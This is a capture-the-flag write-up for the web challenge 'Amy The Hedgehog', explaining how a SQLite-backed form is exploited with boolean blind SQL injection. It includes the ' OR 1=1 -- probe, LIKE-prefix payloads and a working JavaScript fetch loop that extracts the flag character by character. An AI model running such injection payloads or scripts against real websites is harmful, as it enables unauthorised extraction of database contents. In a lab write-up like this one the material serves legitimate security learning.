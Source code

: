 # web/Amy The Hedgehog

## Challenge

Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution

We have to guess Amy's crush (a synonym of "the flag"). Guessing `' OR 1=1 --` returns "(≧U≦❁) You got it!!!", so it is vulnerable.

Classic. We're given a yes/no response to a query.
To avoid brute force, we can figure out the flag character-by-character using `LIKE 'prefix%'` (trying `LITCTF{a%`, ..., `LITCTF{z%` to see `LITCTF{s%` matches, then `LITCTF{sa%`, ..., `LITCTF{sz%`, etc.).

We automate! We can open the Network panel in DevTools (inspector), submit a query with `' OR name LIKE 'sanic%' --`, and "copy as fetch" the request:
```js
await fetch("http://litctf.live:31770/", {
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "name=%27+OR+name+LIKE+%27LITCTF%7Bsanic%25%27+--",
    "method": "POST",
});
```
(This request has been stripped down to the essentials.)

Then, we just do some templating and map each possible character (we try lowercase only and it works) to a request:
```js
await (async () => {
    const chars = [..."}abcdefghijklmnopqrstuvwxyz"];
    let flag = "LITCTF{";
    while (true) {
        const res = await Promise.all(chars.map(async c=>
            (
                await (
                    await fetch("http://litctf.live:31770/", {
                        "headers": {
                            "Content-Type": "application/x-www-form-urlencoded",
                        },
                        "body": `name=%27+OR+name+LIKE+%27${flag}${c}%25%27+--`,
                        "method": "POST",
                    })
                ).text()
            ).includes("You got it!!!")
        ));
        const next = chars.filter((_,i) => res[i]);
        console.log(next);
        if (next.length != 1) throw new Error("bruh");
        flag += next[0];
        if (next[0] == "}") break;
    }
    return flag;
})();
// LITCTF{sldjf}
```
(This is run in the console on the same page, to avoid CORS issues.)

Guessing this flag directly confirms it works.

## Flag

`LITCTF{sldjf}`
